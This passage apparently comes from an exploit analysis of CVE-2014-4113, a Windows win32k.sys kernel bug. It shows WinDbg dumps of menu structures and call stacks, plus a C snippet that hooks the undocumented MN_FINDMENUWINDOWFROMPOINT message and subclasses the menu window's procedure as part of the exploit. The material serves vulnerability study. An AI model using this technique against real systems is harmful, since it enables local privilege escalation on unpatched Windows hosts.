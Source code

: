 ```
    [+0x028] cyMenu           : 0x0 [Type: unsigned long]
    [+0x02c] cxTextAlign      : 0x0 [Type: unsigned long]
    [+0x030] spwndNotify      : 0x0 [Type: tagWND *]
    [+0x034] rgItems          : 0xfea1a0c8 [Type: tagITEM *]
    [+0x038] pParentMenus     : 0xfea07f00 [Type: tagMENULIST *]
    <snipped>
1: kd> dx -id 0,0,85bc4030 -r1 ((win32k!tagITEM *)0xfea1a0c8)
((win32k!tagITEM *)0xfea1a0c8)                 : 0xfea1a0c8 [Type: tagITEM *]
    [+0x000] fType            : 0x800 [Type: unsigned int]
    [+0x004] fState           : 0x3 [Type: unsigned int]
    [+0x008] wID              : 0x0 [Type: unsigned int]
    [+0x00c] spSubMenu        : 0x0 [Type: tagMENU *] <--- HMenu1 has no submenu
    <snipped>
```

<br>

---
# **Let's dump the state during hook callback.**
---

We set this hook just to receieve the initial(undoc) message on the Menu Window.
Message that we receive is **0x1eb** i.e. **MN_FINDMENUWINDOWFROMPOINT**.
We want to override the window proc associated with this default system class
window that is a Menu Window. Note menu related code is handled inside win32k.sys.

[WH_CALLWNDPROC](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms644975(v=vs.85))

[tagCLS](https://www.geoffchappell.com/studies/windows/win32/user32/structs/cls.htm)

**0x0001 CSF_SERVERSIDEPROC all**

```c
// Unhook the applied hook on WH_CALLWNDPROC
if (UnhookWindowsHook(WH_CALLWNDPROC, WndProcCallbackHook))
{
   // set new address of lpfnWndProc callback function
   oldWndProc = (WNDPROC)SetWindowLongPtr(pCwpStruct->hwnd, GWL_WNDPROC, (ULONG_PTR)SubClassNewWndProc);
}
```
<br>


```
0: kd> kvn
 # ChildEBP RetAddr  Args to Child
00 0076f90c 77866d80 00000000 00000000 0076f964 CVE_2014_4113!WndProcCallbackHook+0x74 (FPO: [Non-Fpo]) (CONV: stdcall)
01 0076f940 77866e24 00040000 00000000 0076f964 USER32!DispatchHookA+0x104 (FPO: [Non-Fpo])
02 0076f974 7787f0a3 0111a9f0 000001eb 0076f9a4 USER32!fnHkINLPCWPSTRUCTA+0x52 (FPO: [Non-Fpo])
03 0076f99c 77d56fee 0076f9b4 00000018 0076fb60 USER32!__fnOUTDWORDINDWORD+0x2a (FPO: [Non-Fpo])
04 0076f99c 82acf588 0076f9b4 00000018 0076fb60 ntdll!KiUserCallbackDispatcher+0x2e (FPO: [0,0,0])
05 00000000 00000000 00000000 00000000 00000400 nt!KiCallUserMode+0x4 (FPO: [3,0,4])


0: kd> p
CVE_2014_4113!WndProcCallbackHook+0x74:
0102f6b4 cmp     esi,esp
0: kd> dv /v /t
0076f904          struct tagCWPSTRUCT * pCwpStruct = 0x0076f964
0076f914          int nCode = 0
0076f918          unsigned int wParam = 0
0076f91c          long lParam = 0x76f964
0: kd> dx -r1 ((CVE_2014_4113!tagCWPSTRUCT *)0x76f964)
```